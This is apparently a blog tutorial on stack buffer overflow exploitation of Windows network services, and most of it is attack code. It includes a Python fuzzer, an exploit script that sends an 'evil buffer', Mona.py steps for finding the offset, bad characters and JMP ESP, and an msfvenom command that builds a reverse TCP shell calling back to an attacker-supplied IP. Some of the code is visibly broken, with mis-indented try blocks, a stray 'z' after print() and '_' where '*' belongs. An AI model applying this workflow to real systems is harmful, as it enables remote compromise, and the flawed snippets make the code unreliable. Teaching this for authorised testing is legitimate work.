 ```yaml
---
layout: post
title: Buffer Overflow Overview
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2021-11-02
tags: [buffer overflow, general, windows]
categories: [Tools]
toc:  true
---
```


Buffer overflows are a must have for any penetration testers arsenal.

To perform a buffer overflow attack, some setup is needed for it to be effective and to not crash any production or business critical applications.

## Setup

First off, If possible you must download a copy of the vulnerable application to your own testing machine running your choice of debugging program. For this example we will use [Immunity Debugger](https://www.immunityinc.com/products/debugger/) along with an additional script add-on called [Mona.py](https://github.com/corelan/mona).

![Immunity Debugger with Mona.py](https://mitchelldstein.github.io/assets/images/BufferOverflow/ImmunityDebugger.png)

## Fuzzing

Fuzzing is the process of finding errors and security flaws in software or networks. Fuzzing for buffer overflows involved sending larger and larger commands into the program in hopes to crash it and log the length of the command.

Here is a fuzzer made in python that will interact with the running application and log the length of the command sent.

### **_Fuzzer.py:_**

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "<cmd if needed>"

string = prefix + "A" * 100

while True:
    try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```

Run this command against the network facing program and log the number of bytes it crashed at. As a good rule of thumb always add +400 to the crashed bytes.

## Crash Replication & EIP Control

For the sake of the example, lets say the program crashed at 600 bytes, lets add 400 to it and generate a non-repeating pattern so we can view the exact place in which the program crashed.

```shell
$ /usr/bin/msf-pattern_create -l 1000
Aa0Aa1Aa2Aa3A . . . 7Bg8Bg9Bh0Bh1Bh2B
```

With the pattern we will start to create our exploit to craft our final payload.

### **_Exploit.py_**

```python
import socket

ip = "MACHINE_IP"
port = <port>

prefix = "<optional command>"
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3A . . . 7Bg8Bg9Bh0Bh1Bh2B"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

To find the crash point for code injection, you can use Mona.py.

```shell
!mona findmsp -distance 1000
```

Mona will reply back with

```text
EIP contains normal pattern : … (XXX)
```

In **_Exploit.py_** set the offset varialbe to XXX

## Generate bytearray and find bad characters

```python
#!/bin/python3
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()z
```

```shell
$ !mona bytearray -b "\x00< + bad chars>"
$ !mona compare -f C:\mona\%p\bytearray.bin -a <address>
```

Close bytes can also corrupt near ones. Remove the first byte from the pair and retry. For example if you have 0x1a0x1b, remove 0x1a first then rerun the test.

## Find the JMP ESP

```shell
$!mona jmp -r esp
```

## Generate payload

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<found bad chars>" -f c
```

Add payload to **_Exploit.py_** > payload = ("****\_****")

### Extra

Maybe add some prepend NOPs to **_Exploit.py_**

```shell
overflow = "\x90" _ <overflow>
padding = "\x90" _ 16
```
